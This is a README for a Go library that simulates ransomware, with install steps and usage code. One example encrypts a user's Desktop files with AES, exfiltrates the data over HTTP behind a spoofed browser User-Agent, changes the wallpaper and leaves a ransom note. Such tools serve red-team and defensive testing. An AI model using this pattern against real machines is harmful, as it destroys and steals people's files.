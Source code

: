 # Ransimware

<a href="https://www.buymeacoffee.com/mjwhitta">🍪 Buy me a cookie</a>

[![Go Report Card](https://goreportcard.com/badge/gitlab.com/mjwhitta/ransimware)](https://goreportcard.com/report/gitlab.com/mjwhitta/ransimware)

## What is this?

This Go module allows you to simulate ransomware.

## How to install

Open a terminal and run the following:

```
$ go get -u gitlab.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.WallpaperNotify(
            "C:\\Windows\\Temp\\ransom.png",
            rw.DefaultPNG,
        )()

        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            []string{"This is a ransomware simulation."},
        )()

        return nil
    }

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://gitlab.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - FTP exfil
